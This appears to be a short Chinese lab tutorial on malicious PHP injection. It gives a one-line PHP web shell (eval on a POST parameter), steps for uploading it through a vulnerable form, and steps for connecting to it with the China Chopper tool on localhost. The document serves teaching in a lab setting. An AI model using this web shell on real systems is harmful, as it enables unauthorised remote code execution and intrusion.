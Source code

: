 
### **4. 恶意php注入**

- **虚拟机实验环境**

  一台windows7

  有php注入漏洞的网站

- **操作过程**

  1. 准备一份带有恶意代码的php文件，此处命名为hach.php

     ```
     <?php @eval($_POST[‘hack’]); ?>
     ```

     ![恶意PHP注入_1](./痕迹清除/恶意PHP注入_1.png)

  2. 将文件通过输入框上传后，返回值为

     ![恶意PHP注入_2](./痕迹清除/恶意PHP注入_2.png)

  3. 使用中国菜刀进行连接。先打开中国菜刀软件，在页面右键后点击添加，在地址输入http://127.0.0.1/upload/hach.php。地址后的小框（红圈标出）中填入hack(即hach.php代码中用单引号扩起的字符）

     ![恶意PHP注入_3](./痕迹清除/恶意PHP注入_3.png)

  4. 双击后可看见相应文件
